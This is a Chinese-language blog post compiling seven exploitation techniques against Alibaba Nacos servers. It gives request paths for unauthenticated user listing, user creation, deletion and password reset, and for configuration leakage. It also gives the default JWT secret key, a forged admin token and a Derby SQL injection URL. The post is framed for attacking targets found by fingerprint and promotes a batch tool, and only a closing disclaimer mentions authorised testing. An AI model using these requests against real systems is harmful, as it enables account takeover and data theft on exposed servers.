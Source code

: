 #  Nacos 漏洞利用姿势大全-附批量工具   
原创 丁永博  丁永博的成长日记   2024-04-17 23:59  
  
Alibaba Nacos是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPECoLvgoqpPxr96SHS9NmyBOFmefaExM8qo4AtUXIXXJI4kwdXKI8ibuA/640?wx_fmt=png&from=appmsg "")  
  
**指纹：app="nacos"**  
  
**默认密码nacos nacos就不说了**  
## 漏洞1获取已有的用户列表的账号和密码  
  
在路径后面加上/nacos/v1/auth/users?pageNo=1&pageSize=9可以获取到已有的用户名和密码，  
可以  
把User-Agent头改为Nacos-Server  
，如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEZfR8GtQwkWN2O3mSVpmJYzU29Hksd49sjqVmbD3z0bfiaNWrUElWulQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞2任意用户添加  
  
更改提交方式为POST , 访问/nacos/v1/auth/users?username=test111&password=123456  
  
新建一个账号test111,可以看到创建用户成功，如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEKcQwuAnicXAg7KA1dGhHYADgp7kw3WMRSc6PZj2dURDo4GQdu0PNW3A/640?wx_fmt=png&from=appmsg "")  
  
使用该账号可以发现登录成功，如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPE5qxiaA9TqOibpic2tAtWnIAbnQgsOA783vNwb7xTso6zoOBwl6tcL3iaog/640?wx_fmt=png&from=appmsg "")  
## 漏洞3任意用户删除  
  
更改提交方式为DELETE , 访问DELETE /nacos/v1/auth/users?username=test111  
  
可以看到用户删除成功，如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEVYLtEKcBjQ0LvibYfibjA1rYnMs40RLpMNJPu232NheaCK1icXXj3Yj4g/640?wx_fmt=png&from=appmsg "")  
## 漏洞4用户密码重置  
  
更改提交方式为PUT,访问 /nacos/v1/auth/users?accessToken=&username=test1&newPassword=test222  
  
可以看到用户密码更新成功，如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEYSSF9LzKXPlc5M6RnKbscib3D7zfeULGNWf0aUI7zlZibhEP32Q7JzjQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞5配置信息泄露  
  
在路径后面加上：/nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEn0BLLFibUKK6ptwkiagZzkdPLVXEfvC4bVmm1rjWpXdJhcWu8Bhb3kvQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞6  token.secret.key默认配置(QVD-2023-6271)  
```
SecretKey012345678901234567890123456789012345678901234567890123456789
```  
```
https://jwt.io/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEo4Xsw5dyr4J1ggdVPBLqJRJGGxRzFibQpP8aj7zltdgGVJVAKH2KL9A/640?wx_fmt=png&from=appmsg "")  
```
http://shijianchuo.wiicha.com/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEvLQXoTpkrrNZoRspagnXEkBeOmpHjk3oib88dUQ9gIuPx7LcKicT4XqQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEcicaNic5t9zeXaMW7AqjItQXeoqribjiavIwa7GOr7d3brTAVrbJW9tbXg/640?wx_fmt=png&from=appmsg "")  
  
在登录请求中，拦截数据包，添加Authorization信息，拦截放回包后放包  
```
Authorization: Bearer 你的token
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEgC75IJSG6IauzLsP3665kmJlpbZUBB3QmlibqFz9QojicZDvI8xaErIg/640?wx_fmt=png&from=appmsg "")  
  
**利用方式2：**  
  
登陆界面输入任意账户密码 ，点击登录。更改改返回包状态码跟body  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vfnOYb9lyqpTI99D9icvYqGMRXSK3CRKCibuiauv59NKB1DEzpyBZM2t9ibHWic4gTzBLYfRURQN6U1HDMib0zFlMzcw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
```
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```  
##   
## 漏洞7 Nacos Derby SQL注入漏洞  (CNVD-2020-67618)  
```
/nacos/v1/cs/ops/derby?sql=%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%75%73%65%72%73
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEDkUTlHpSetxHdgLQ6nNrW3D2HbRCbFdjztggSYQXmSFMT5dULKoBMg/640?wx_fmt=png&from=appmsg "")  
  
**批量工具放知识星球**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEIfXCa1CxVEN0IPCgE1JyIbgplkWDKdoJU8N4evub4xcP0ardsBUcNQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/vfnOYb9lyqqUWYYBR1NDeR9wD0uVHuPEbfLdtBfEmh2ST33Hl1OLkOAH2693FddgZuvkWc00GdWk0fwsJAS3uA/640?wx_fmt=jpeg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
小知识  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系统罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/vfnOYb9lyqr922u4gKibKgUuPUMicLibMqiajkAJp8vG8WLtiav9gmSF7T453KlPULqXgXJFaiat5gqogqncOXrghYPA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
欢迎   
**在看**  
丨  
**留言**  
丨  
**分享至朋友圈**  
 三连  
  
 **好文推荐******  
  
- [实战|UEditor编辑器任意文件上传漏洞）](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486237&idx=1&sn=b50d56f30d735289bb60a10632b98ab9&chksm=c20a283af57da12caaaaeb4452adc713c0404756a814305eccece911312100de4ef3a5d6909b&scene=21#wechat_redirect)  
  
  
- [实战|监控里的秘密](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484122&idx=1&sn=88801391b60d3b77df97026e9e495ec2&chksm=c20a21fdf57da8eb9641bff94074f2aa736d12e3a48098d33e66aca17ded9267e6686ddb9452&scene=21#wechat_redirect)  
  
  
- [木马工具|控制别人的电脑，非常简单！](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484445&idx=1&sn=bb60b1a6a69c8c2d31a6e8d5fb09a638&chksm=c20a273af57dae2c544388af5d942e9100225f400d055274123dcd13784c21ec598b4f2e7591&scene=21#wechat_redirect)  
  
  
- [BlueLotus联动DVWA，实现xss窃取cookie](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486084&idx=1&sn=62d3d7448aa06365d15157326e59b8e7&chksm=c20a29a3f57da0b56f4e5323d7c6b05e91b597df2697934e7903c27a730e2f4443983216f289&scene=21#wechat_redirect)  
  
  
- [实战|逻辑漏洞绕过](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247509911&idx=1&sn=c37f416483c1ab4bc7b8ee13a379280a&chksm=9acd7708adbafe1ef9f9f030e9de25446eacec18bd15df2f76ba21a4031c7f827563c03bb907&scene=21#wechat_redirect)  
  
  
- [路边的u盘你不要捡，山下的女人是老虎~](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485822&idx=1&sn=a5e05071dccc53fecc4b69d513489444&chksm=c20a2a59f57da34f00a26cab87251fffb1ca7ca51c658fea0d5e7f08788c1d59d86f95fc137a&scene=21#wechat_redirect)  
  
  
- [永恒之蓝彩虹猫联动](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485315&idx=1&sn=c64f1d550507b15b7655a6ec18e857de&chksm=c20a24a4f57dadb219c1ef76e18fad92932596782d9d7c10f264cb23245af31d5624666de16f&scene=21#wechat_redirect)  
  
  
- [5min学渗透|wifi断网攻击、暴力攻击](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485194&idx=1&sn=c425ac374dde652c5ac820b8b7aa5fdd&chksm=c20a242df57dad3b2fe01e302955f3ad3f25cde0ab8e08bb21a431c24f3acad965472efcdbed&scene=21#wechat_redirect)  
  
  
- [5min学渗透|你的手机是如何被监控的?](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485149&idx=1&sn=242ab51f1c6797cdff86af09a6ef6a1d&chksm=c20a25faf57dacec21276c8509c453a4c8446fdf44494ec2663ca61aab494ca7edc1eedc8694&scene=21#wechat_redirect)  
  
  
- [5min学渗透|简单制作钓鱼wifi 01](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485124&idx=1&sn=21899d53b348d7daa9e73b464fb9d423&chksm=c20a25e3f57dacf54e101b31ae6b292f822fc012795b604df0f15231072e80d887e8d98090bf&scene=21#wechat_redirect)  
  
  
- [实用小工具|破解office三件套加密密码](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485123&idx=1&sn=21bc7ca9cc48d0270667709dc448410f&chksm=c20a25e4f57dacf27d5fb2d90f1ac6c04ac36ca5549023c4d83c85ff5464632563bad975cd50&scene=21#wechat_redirect)  
  
  
  
  
